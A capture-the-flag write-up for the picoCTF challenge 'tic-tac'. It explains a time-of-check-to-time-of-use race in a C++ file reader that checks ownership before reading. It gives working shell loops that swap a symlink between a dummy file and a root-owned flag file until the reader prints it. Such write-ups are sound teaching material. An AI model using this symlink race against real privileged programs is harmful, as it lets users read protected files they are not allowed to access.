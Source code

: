 # Writeup - tic-tac
Category: Binary Exploitation, Points: 200


## Descpriton

> Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

We connect to the VM with `ssh`. Further details are given when the instance is launched.


## Vulnerability

After `ssh`ing into the VM. 

We can `ls` the current directory.

```console
$ ls
flag.txt  src.cpp  txtreader
```

We can see there is a `src.cpp` source file, a `flag.txt` file and a binary `./txtreader` file.

We can read `src.cpp` file.

```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

Now, the program is quite simple. It reads a file into the `file` pointer, and checks if the `file` is owned by the same person who created it. The `getuid` function returns your user-id, and the `statbuf.st_uid` returns the id of the `file` owner.

If you run:

```console
$ ./txtreader src.cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

If we try to read the `flag.txt` file like this:

```console
$ ./txtreader flag.txt
Error: you don't own this file
```

It doesn't read it because we didn't create the `flag.txt` file. The `root` user has created it.

Now let's think of adding a `symlink`. If we create a `symlink` to `flag.txt`. It should trick the program into printing the contents of `flag.txt`, because we created the `symlink` hence we are the owners, and so it should pass the check.

```console
$ ln -sf flag.txt link  ##create the symlink
$ ./txtreader link
```

Unfortunately, this fails. The reason being the `stat` function resolves the `symlink` to it's orignal file `flag.txt`. Hence, on the `statbuf.st_uid` call, it gives the user-id for `root`.

If we see the challange tags, there is a tag called `toctou`. Google it and this results into a `time-of-check-time-of-use` attack. `toctou` attacks are caused by something called [Race Conditions](https://en.wikipedia.org/wiki/Race_condition). 

Race Conditions happen when two or more operations are running in parallel.

There is a Race Condition in the `src.cpp` file, caused by 2 instances. Firstly, it checks the ownership of the file. Secondly, it reads the file. We want to swap the file between when it checks ownership and when it reads.

```console
check_ownership(file) -- file is a dummy file owned by us

swap the file -- from the dummy file to flag.txt

read_file(file) -- read the flag.txt file!
```


## Exploit

First we create a dummy `random.txt` file.

Then, we can swap the `file` with a `symlink`. The basic idea is to keep swapping the `symlink` between `flag.txt` and our dummy file `random.txt`, for some amount of time in the background.

We can do this by:

```console
$ timeout 30s bash -c 'while true; do ln -sf random.txt flag; ln -sf flag.txt flag; done' &
```

The `timeout` command times-out after 30 seconds.

We then try to run `txtreader` multiple times so that we swap the file at the right time.

```console
$ while ! ./txtreader flag 2> /dev/null | grep "picoCTF"; do :; done
```

We should get the flag.


## References

[Link 1](https://brandon-t-elliott.github.io/tic-tac)
[Link 2](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)



